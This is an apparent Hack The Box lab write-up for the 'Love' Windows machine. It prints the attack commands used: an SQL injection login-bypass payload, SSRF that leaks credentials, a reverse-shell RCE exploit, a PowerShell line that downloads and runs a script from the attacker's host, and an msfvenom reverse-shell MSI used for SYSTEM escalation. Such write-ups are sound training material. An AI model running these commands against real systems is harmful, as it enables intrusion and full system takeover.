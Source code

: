 # HTB Love Write-up

## Overview

"Love" is a Windows machine with a voting system that has a serious security flaw. The system exposes multiple services, including a vulnerable file scanner that can be exploited through SSRF (Server-Side Request Forgery). Using this vulnerability, we gain access to internal services and extract credentials for the voting system. After logging in, we exploit a remote code execution bug to gain a foothold on the system as the user "phoebe." Further privilege escalation allows us to bypass AppLocker and execute commands with SYSTEM privileges.

---

## Enumeration

### Nmap Scan
We started with an Nmap scan to identify open ports and services:

```
nmap -sC -sV -oA nmap/love 10.10.10.239 -Pn
```

![alt text](Snapshots/Love-image.png)

![alt text](Snapshots/Love-image2.png)


**Open Ports:**
- **80**: HTTP 
- **443**: HTTPS (leaking staging.love.htb)
- **5000**: HTTP service
- **445**: SMB service also detected
- **3306**: MySQL

We added the site names in our hosts file
```
echo "10.10.10.239 love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

### HTTP Service (Port 80)
The web server on port 80 displayed a login page for the voting system. We attempted a few common login credentials and noted that an incorrect password prompt appeared for valid usernames, confirming that an admin account exists.

![alt text](Snapshots/Love-image3.png)

### HTTPS Service (Port 443)
Accessing https://staging.love.htb, and we got a File Scanner page. But we have no credentials to access it.

![alt text](Snapshots/Love-image4.png)


### Port 5000
Attempting to access port 5000 directly was blocked.

![alt text](Snapshots/Love-image5.png)

### Other ports
The SMB service did not allow anonymous login. We switched to running a **Gobuster** scan to find hidden directories.

```
gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster identified several directories, some of them are defaults but these two might be useful as we progress with our exploits.:
- `/images`
- `/admin`

![alt text](Snapshots/Love-image6.png)

---

## Exploitation

### SQL Injection
We tested for SQL injection on the login page. Using the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/49843), we successfully bypassed authentication:

```
Username: dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
Password: admin
```
![alt text](Snapshots/Love-image7.png)

### File Upload Vulnerability
After logging in, we navigated to the "Create Voter" page, which allowed file uploads. We uploaded various file types and found that the server saved them to the `/images` directory.

![alt text](Snapshots/Love-image8.png)

We tried to upload a php reverse shell but it failed to execute as something is blocking it from the server side.

![alt text](Snapshots/Love-image-9.png)

### SSRF Exploitation
Switching tactics, we ran another Gobuster scan on staging.love.htb and discovered `beta.php`. By leveraging SSRF, we accessed internal services by querying localhost URLs directly:

![alt text](Snapshots/Love-image-10.png)

![alt text](Snapshots/Love-image-11.png)

![alt text](Snapshots/Love-image-12.png)

- http://localhost:5000 revealed an internal password manager with leaked credentials:
```
  admin:@LoveIsInTheAir!!!!
```
---

### RCE on Voting System
Using the leaked credentials, we logged into the voting system and found an RCE exploit in Exploit-DB ([49445.py](https://www.exploit-db.com/exploits/49445)). After modifying the script to point to the correct URLs, we executed it:

![alt text](Snapshots/Love-image-13.png)

The exploit works but these URLs are needed to be updated. I've also added my listening IP and PORT, and the admin credentials as well.

![alt text](Snapshots/Love-image-14.png)

I setup a netcat listener
```
nc -lnvp 9001
```

Then run the exploit
```
python3 ./49445.py
```

We established a reverse shell and got the user flag.

![alt text](Snapshots/Love-image-15.png)


---

## Privilege Escalation

### PowerUp Script
I uploaded and run the PowerUp script to identify privilege escalation vectors:

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:8000/PowerUp.ps1')
```

Then run this in the victim's machine:
```
Invoke-AllChecks
```

The scan revealed that the **AlwaysInstallElevated** registry key was set to 1. The **AlwaysInstallElevated registry** key is a known privilege escalation vector in Windows systems. When this key is set to 1, it allows MSI files to be installed with elevated privileges by non-administrator users. This is a major security risk because attackers can abuse it to execute arbitrary MSI packages with SYSTEM privileges.
![alt text](Snapshots/Love-image-16.png)


### Crafting an MSI Payload
We used **msfvenom** to create a malicious MSI payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f msi > shell.msi
```

### Upload and Execution
We uploaded the payload to `C:\programdata` using **curl**:

The C:\ProgramData directory is commonly accessible for "Everyone" because it's used by Windows to store shared application data that needs to be accessible by multiple users, regardless of their privilege level. I've also checked the directory's permission and Users are allowed to execute.

```
Get-Acl . | Format-List
```
![alt text](Snapshots/Love-image-17.png)

As this directory is confirmed that we can run our privilege escalation exploit, we download the .msi file from our local machine.
```
curl http://10.10.14.11:8000/shell.msi -o shell.msi
```

Then, we set up a listener:

```
rlwrap nc -lnvp 4444
```

Finally, we executed the MSI file with elevated privileges:

```
msiexec /quiet /qn /i shell.msi
```

Upon execution, we gained a shell with SYSTEM privileges.

![alt text](Snapshots/Love-image-18.png)

---

## Conclusion
The "Love" machine showcased several critical vulnerabilities:
1. SQL Injection on the voting system login page.
2. SSRF vulnerability that exposed internal services.
3. Misconfigured AlwaysInstallElevated registry key, allowing privilege escalation.

By systematically exploiting these weaknesses, we achieved full control of the system as a SYSTEM user.

